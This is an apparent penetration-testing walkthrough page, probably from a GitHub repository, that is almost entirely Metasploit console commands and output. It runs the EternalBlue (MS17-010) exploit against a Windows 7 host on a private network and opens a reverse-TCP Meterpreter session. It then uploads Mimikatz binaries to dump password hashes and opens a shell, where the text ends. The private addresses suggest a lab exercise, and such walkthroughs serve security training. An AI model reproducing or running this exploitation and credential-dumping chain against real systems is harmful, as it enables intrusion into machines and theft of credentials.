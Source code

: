For the X3 we will use the Eternal Blue module in metasploit https://en.wikipedia.org/wiki/EternalBlue
```
msf5 exploit(windows/smb/ms17_010_psexec) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.69.91
msf5 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.69.64:4444 
[+] 192.168.69.91:445     - Host is likely VULNERABLE to MS17-010! - Windows Embedded Standard 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.69.91:445 - Connecting to target for exploitation.
[+] 192.168.69.91:445 - Connection established for exploitation.
[+] 192.168.69.91:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.69.91:445 - CORE raw buffer dump (45 bytes)
[*] 192.168.69.91:445 - 0x00000000  57 69 6e 64 6f 77 73 20 45 6d 62 65 64 64 65 64  Windows Embedded
[*] 192.168.69.91:445 - 0x00000010  20 53 74 61 6e 64 61 72 64 20 37 36 30 31 20 53   Standard 7601 S
[*] 192.168.69.91:445 - 0x00000020  65 72 76 69 63 65 20 50 61 63 6b 20 31           ervice Pack 1   
[+] 192.168.69.91:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.69.91:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.69.91:445 - Sending all but last fragment of exploit packet
[*] 192.168.69.91:445 - Starting non-paged pool grooming
[+] 192.168.69.91:445 - Sending SMBv2 buffers
[+] 192.168.69.91:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.69.91:445 - Sending final SMBv2 buffers.
[*] 192.168.69.91:445 - Sending last fragment of exploit packet!
[*] 192.168.69.91:445 - Receiving response from exploit packet
[+] 192.168.69.91:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.69.91:445 - Sending egg to corrupted connection.
[*] 192.168.69.91:445 - Triggering free of corrupted buffer.
[*] Sending stage (206403 bytes) to 192.168.69.91
[*] Meterpreter session 2 opened (192.168.69.64:4444 -> 192.168.69.91:49161) at 2019-08-01 22:04:55 -0400
[+] 192.168.69.91:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.69.91:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.69.91:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > sysinfo
Computer        : WINDOWS-TUNJ16P
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : ja_JP
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
We will use Mimikatz as a means to demonstrate an alternate method to dump the hashes required for stage two. 
```
meterpreter > cd /
meterpreter > upload /Users/darksoft/Downloads/mimikatz_trunk/x64 .
[*] uploading  : /Users/darksoft/Downloads/mimikatz_trunk/x64/mimilib.dll -> .\mimilib.dll
[*] uploaded   : /Users/darksoft/Downloads/mimikatz_trunk/x64/mimilib.dll -> .\mimilib.dll
[*] uploading  : /Users/darksoft/Downloads/mimikatz_trunk/x64/mimidrv.sys -> .\mimidrv.sys
[*] uploaded   : /Users/darksoft/Downloads/mimikatz_trunk/x64/mimidrv.sys -> .\mimidrv.sys
[*] uploading  : /Users/darksoft/Downloads/mimikatz_trunk/x64/mimikatz.exe -> .\mimikatz.exe
[*] uploaded   : /Users/darksoft/Downloads/mimikatz_trunk/x64/mimikatz.exe -> .\mimikatz.exe
meterpreter > shell
Process 1572 created.
Channel 4 created.
```
